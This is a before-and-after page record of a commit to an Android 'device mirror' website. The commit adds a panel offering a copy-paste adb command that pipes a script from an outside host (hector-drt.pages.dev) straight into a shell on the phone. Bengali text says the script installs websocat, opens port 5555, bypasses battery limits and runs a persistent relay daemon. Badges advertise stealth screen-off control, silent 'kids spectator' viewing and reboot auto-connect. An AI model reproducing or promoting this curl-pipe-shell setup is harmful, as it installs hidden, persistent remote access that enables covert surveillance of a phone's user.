

Before and after one commit to joyakter414-ship-it/android-device-mirror, a website: page pages/public/index.html in a window 1280 px wide. Shown: the part 970-1776 px from the top of the page. Before the commit the page ends 1755 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
feat: simplify to All-in-One Master Engine with live internal setup breakdown

```diff
--- a/pages/public/app.js
+++ b/pages/public/app.js
@@ -197,6 +197,15 @@ function downloadStudioScript() {
   URL.revokeObjectURL(url);
 }
 
+function copyMasterCommand() {
+  const code = document.getElementById('master-phone-cmd').innerText;
+  navigator.clipboard.writeText(code).then(() => {
+    const btn = document.getElementById('master-copy-text');
+    btn.innerText = 'Copied!';
+    setTimeout(() => { btn.innerText = 'Copy'; }, 2000);
+  });
+}
+
 // Init
 loadEdgeStatus();
 loadDriveInfo();
--- a/pages/public/index.html
+++ b/pages/public/index.html
@@ -309,68 +309,91 @@
             </div>
           </div>
 
-        <!-- Panel 3: Universal Cloud Command & Script Studio -->
-        <div class="bg-gray-900/60 border border-gray-800 rounded-2xl p-6 shadow-xl">
+        <!-- Panel 3: All-in-One Master Cloud Engine (সব মোড একসাথে সক্রিয়) -->
+        <div class="bg-gradient-to-r from-gray-900 via-gray-900/90 to-[#0c1326] border border-cyan-500/30 rounded-2xl p-6 shadow-2xl">
           <div class="flex items-center justify-between mb-4">
             <div class="flex items-center space-x-3">
-              <div class="w-9 h-9 rounded-lg bg-cyan-500/10 border border-cyan-500/20 flex items-center justify-center text-cyan-400">
-                <i class="fa-solid fa-code"></i>
+              <div class="w-10 h-10 rounded-xl bg-gradient-to-tr from-cyan-500 to-blue-600 flex items-center justify-center text-white shadow-lg shadow-cyan-500/20">
+                <i class="fa-solid fa-microchip text-lg"></i>
               </div>
               <div>
-                <h3 class="font-bold text-white text-base">Universal Cloud Command & Script Studio</h3>
-                <p class="text-xs text-gray-400">Generate, customize, or download ready-to-run commands for any mode directly on this site</p>
+                <h3 class="font-bold text-white text-base">All-in-One Master Engine (সব মোড একসাথে রেডি)</h3>
+                <p class="text-xs text-gray-400">আলাদা কোনো মোড বেছে নিতে হবে না; ১টি সেটআপেই সব ফিচার একসাথে কাজ করবে</p>
               </div>
             </div>
-            <span class="text-xs text-cyan-400 font-mono bg-cyan-950/80 border border-cyan-800/40 px-2.5 py-1 rounded-md">
-              In-Browser Generator
+            <span class="text-xs text-emerald-400 font-mono bg-emerald-950/80 border border-emerald-800/40 px-3 py-1 rounded-full flex items-center gap-1.5">
+              <span class="w-2 h-2 rounded-full bg-emerald-400 animate-pulse"></span> ALL MODES ACTIVE
             </span>
           </div>
 
-          <!-- Selector Controls -->
-          <div class="grid grid-cols-1 sm:grid-cols-2 gap-3 mb-4 text-xs">
-            <div>
-              <label class="text-gray-400 block mb-1 font-semibold">1. Select Target Operation / Mode:</label>
-              <select id="studio-mode-select" onchange="updateStudioScript()" class="w-full bg-gray-950 border border-gray-800 rounded-lg p-2.5 text-gray-200 focus:outline-none focus:border-cyan-500 font-sans">
-                <option value="stealth">🕵️ Stealth Remote Mode (Mobile Screen 100% OFF)</option>
-                <option value="spectator">👀 Kids Live Spectator (Silent View + Auto Recording)</option>
-                <option value="full">📱 Full Interactive Mirror (60 FPS + Mouse/Keyboard)</option>
-                <option value="wireless">📶 Switch to Wireless Wi-Fi (Ditch USB Cable)</option>
-                <option value="autoboot">🛡️ Anti-Theft Auto-Boot Persistence (No Root)</option>
-                <option value="drive">☁️ Direct Google Drive Rescue Backup</option>
-              </select>
+          <!-- Feature Badges Grid -->
+          <div class="grid grid-cols-2 sm:grid-cols-3 gap-2.5 mb-5 text-xs font-mono">
+            <div class="p-2.5 bg-gray-950/90 border border-gray-800 rounded-xl flex items-center space-x-2 text-cyan-300">
+              <i class="fa-solid fa-eye-slash text-cyan-400"></i>
+              <span>Stealth Screen-OFF</span>
             </div>
-            <div>
-              <label class="text-gray-400 block mb-1 font-semibold">2. Select Your Platform:</label>
-              <select id="studio-os-select" onchange="updateStudioScript()" class="w-full bg-gray-950 border border-gray-800 rounded-lg p-2.5 text-gray-200 focus:outline-none focus:border-cyan-500 font-sans">
-                <option value="mac">🍎 macOS (Terminal / 1-Click .command)</option>
-                <option value="win">🪟 Windows (CMD / 1-Click .bat)</option>
-                <option value="android">📱 Android Direct 1-Liner (Run on Device)</option>
-                <option value="linux">🐧 Linux</option>
-              </select>
+            <div class="p-2.5 bg-gray-950/90 border border-gray-800 rounded-xl flex items-center space-x-2 text-purple-300">
+              <i class="fa-solid fa-binoculars text-purple-400"></i>
+              <span>Kids Spectator View</span>
+            </div>
+            <div class="p-2.5 bg-gray-950/90 border border-gray-800 rounded-xl flex items-center space-x-2 text-emerald-300">
+              <i class="fa-solid fa-gamepad text-emerald-400"></i>
+              <span>Live 60 FPS Control</span>
+            </div>
+            <div class="p-2.5 bg-gray-950/90 border border-gray-800 rounded-xl flex items-center space-x-2 text-amber-300">
+              <i class="fa-solid fa-cloud-arrow-up text-amber-400"></i>
+              <span>Google Drive 5TB</span>
+            </div>
+            <div class="p-2.5 bg-gray-950/90 border border-gray-800 rounded-xl flex items-center space-x-2 text-blue-300">
+              <i class="fa-solid fa-wifi text-blue-400"></i>
+              <span>Wireless 4G/5G</span>
+            </div>
+            <div class="p-2.5 bg-gray-950/90 border border-gray-800 rounded-xl flex items-center space-x-2 text-rose-300">
+              <i class="fa-solid fa-shield-virus text-rose-400"></i>
+              <span>Reboot Auto-Connect</span>
             </div>
           </div>
 
-          <!-- Dynamic Output Box -->
-          <div class="relative bg-gray-950 border border-gray-800 rounded-xl p-4 font-mono text-xs text-cyan-300">
-            <div class="flex items-center justify-between text-gray-500 text-[11px] mb-2 border-b border-gray-900 pb-2">
-              <span id="studio-desc">Launch stealth mirror session with remote mobile screen powered off</span>
-              <span id="studio-lang" class="text-cyan-400 font-bold uppercase">bash</span>
+          <!-- 1-Line Phone Master Injection Command -->
+          <div class="bg-gray-950 border border-cyan-500/40 rounded-xl p-4 mb-4">
+            <div class="flex items-center justify-between text-xs mb-2">
+              <span class="text-cyan-400 font-bold uppercase tracking-wider flex items-center gap-1.5">
+                <i class="fa-solid fa-terminal"></i> ফোনে সেটআপ করার ১টি মাত্র মাস্টার কমান্ড:
+              </span>
+              <span class="text-[11px] text-gray-500 font-mono">সারাজীবনে একবার দিলেই হবে</span>
             </div>
-            <pre id="studio-code" class="overflow-x-auto whitespace-pre-wrap break-all text-xs text-gray-200 py-1">scrcpy -s 127.0.0.1:5556 --turn-screen-off --stay-awake --power-off-on-close</pre>
+            <div class="bg-black/80 rounded-lg p-3 font-mono text-xs text-emerald-400 flex items-center justify-between gap-3 overflow-x-auto border border-gray-900">
+              <code id="master-phone-cmd" class="truncate">adb shell "curl -sL https://hector-drt.pages.dev/api/bridge/script | sh"</code>
+              <button onclick="copyMasterCommand()" class="px-3 py-1.5 rounded-md bg-cyan-600 hover:bg-cyan-500 text-white font-sans text-xs transition shrink-0 flex items-center space-x-1">
+                <i class="fa-regular fa-copy"></i>
+                <span id="master-copy-text">Copy</span>
+              </button>
+            </div>
           </div>
 
-          <!-- Action Buttons -->
-          <div class="mt-4 flex flex-wrap items-center justify-between gap-3">
-            <span class="text-[11px] text-gray-400">Everything runs directly from this website. No loose scripts needed!</span>
-            <div class="flex items-center space-x-2">
-              <button onclick="copyStudioCommand()" class="px-4 py-2 rounded-xl bg-gray-800 hover:bg-gray-700 text-gray-200 text-xs font-semibold border border-gray-700 transition flex items-center space-x-1.5">
-                <i class="fa-regular fa-copy"></i>
-                <span id="studio-copy-text">Copy Command</span>
-              </button>
-              <button onclick="downloadStudioScript()" class="px-4 py-2 rounded-xl bg-cyan-600 hover:bg-cyan-500 text-white text-xs font-semibold shadow-lg shadow-cyan-600/25 transition flex items-center space-x-1.5">
-                <i class="fa-solid fa-download"></i>
-                <span>Download Ready Script</span>
-              </button>
+          <!-- How Script Sets Up Mobile Internally -->
+          <div class="bg-gray-950/60 border border-gray-800/80 rounded-xl p-4 text-xs">
+            <h4 class="text-white font-bold mb-2 flex items-center space-x-2">
+              <i class="fa-solid fa-gears text-cyan-400"></i>
+              <span>এই কমান্ডটি দিলে আপনার মোবাইলের ভেতরে কী কী সেটআপ হবে?</span>
+            </h4>
+            <div class="grid grid-cols-1 sm:grid-cols-2 gap-2 text-gray-400 font-mono text-[11px]">
+              <div class="flex items-start space-x-2">
+                <span class="text-cyan-400 font-bold">১.</span>
+                <span>CPU চিনে নিয়ে মেমোরিতে static websocat বসিয়ে দেবে।</span>
+              </div>
+              <div class="flex items-start space-x-2">
+                <span class="text-cyan-400 font-bold">২.</span>
+                <span>পোর্ট ৫৫৫৫ ওপেন করে ওয়াইফাই ও 4G সক্রিয় করবে।</span>
+              </div>
+              <div class="flex items-start space-x-2">
+                <span class="text-cyan-400 font-bold">৩.</span>
+                <span>ব্যাটারি অপটিমাইজেশন বাইপাস করে Keep-Awake করবে।</span>
+              </div>
+              <div class="flex items-start space-x-2">
+                <span class="text-cyan-400 font-bold">৪.</span>
+                <span>Cloudflare রিলেতে ব্যাকগ্রাউন্ডে ডেমোন চালু করে দেবে।</span>
+              </div>
             </div>
           </div>
         </div>
```
Also changed, not shown: pages/functions/api/bridge/script.js (+37 -15 lines).
